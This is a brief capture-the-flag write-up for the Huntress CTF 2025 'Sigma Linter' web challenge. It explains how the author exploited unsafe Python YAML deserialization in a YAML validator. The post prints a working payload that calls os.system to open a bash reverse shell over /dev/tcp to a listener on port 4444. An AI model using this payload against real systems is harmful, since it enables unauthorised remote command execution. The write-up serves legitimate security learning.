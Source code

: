 ```yaml
---
title: "Huntress CTF 2025 Writeup: Sigma Linter"
date: 2025-11-01 16:36:48 +0100
categories: ["Huntress CTF 2025"]
tags: ["Web", "CTF", "Huntress", "Deserialization"]
image: https://raw.githubusercontent.com/AbdulRKB/img/refs/heads/main/Huntress%20CTF%202025/sigma-linter-1.png
---
```


>Oh wow, another web app interface for command-line tools that already exist!
>This one seems a little busted, though...
---

I learnt that the webapp was validating yaml, and so I tried to carry out a deserialization attack.

I added a new line and entered the [following code](https://morgan-bin-bash.gitbook.io/linux-privilege-escalation/python-yaml-privilege-escalation) (found by my teammate) while listening on port `4444`:

```yaml
user_input: !!python/object/new:os.system ['bash -c "bash -i >& /dev/tcp/10.200.3.4/4444 0>&1"']
```


And I was in!! After that, I just catt'd the flag.

![sigma-linter-2.png](https://raw.githubusercontent.com/AbdulRKB/img/refs/heads/main/Huntress%20CTF%202025/sigma-linter-2.png)
